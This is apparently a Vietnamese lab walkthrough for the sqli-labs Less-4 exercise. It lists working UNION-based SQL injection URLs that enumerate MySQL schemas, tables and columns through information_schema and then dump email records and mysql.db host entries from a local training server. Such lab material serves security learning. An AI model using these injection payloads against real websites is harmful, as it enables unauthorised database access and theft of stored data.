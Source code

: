 # Một số việc làm với được lesson-4.md

![](../images/lesson1/screenshot.png)

Ta sẽ xem là server sử dụng hệ quản trị cơ sở dữ liệu nào ta nhìn vào port và thấy sử dụng MYSQL 

1. Đăng nhập với giá trị id 
```
http://192.168.80.225/sqli-labs/Less-3/?id=1
```

![](../images/lesson4/screen_12.png)

2. Show tất cả các DB có trong hệ thống
- Với command
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```

![](../images/lesson4/screen.png)

Các DB sẽ cách nhau một dấu phẩy 

3. Show tất cả các bảng của từng DB một 
- Show tất cả các bảng của DB security 
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```

![](../images/lesson4/screen_1.png)

- Show tất cả các bảng của DB mysql 
```
http://192.168.80.225//sqli-labs/Less-4/?id=1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```

![](../images/lesson4/screen_2.png)

- Show tất cả các bảng của DB challenges
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```

![](../images/lesson4/screen_3.png)

Các DB khác tương tự và chỉ thay ở tên challenges

4. Show tên các cột trong từng bảng của từng DB 
- Show tên các trường trong bảng users trong  DB security
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 1,1 --+
```

![](../images/lesson4/screen_4.png)

- Show tên các trường trong bảng emails trong  DB security
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='emails' limit 1,1 --+
```

![](../images/lesson4/screen_5.png)

-  Show tên các trường trong bảng uagents trong  DB security
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' limit 1,1 --+
```

![](../images/lesson4/screen_6.png)

- Show tên các trường trong bảng referers trong  DB security

```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='referers' limit 1,1 --+
```

![](../images/lesson4/screen_7.png)

- Show dữ liệu tên trường của bảng db trong database mysql 
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='mysql' AND table_name='db' limit 1,1 --+
```

![](../images/lesson4/screen_8.png)

Đọc dữ liệu trong một bảng 
- Bảng emails của security 
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,group_concat(id),group_concat(email_id) from emails limit 1,1--+
```

![](../images/lesson4/screen_9.png)


- Show dữ liệu trong bảng của  một DB khác 
```
http://192.168.80.225/sqli-labs/Less-4/?id=1")  union SELECT 1,2,group_concat(Host) from mysql.db limit 1,1--+
```

![](../images/lesson4/screen_10.png)

Tương tự như thế thì đối với các bảng và các DB khác thì ta truy suất tương tự như thế và thay tên các trường các table các DB mà ta mong muốn. 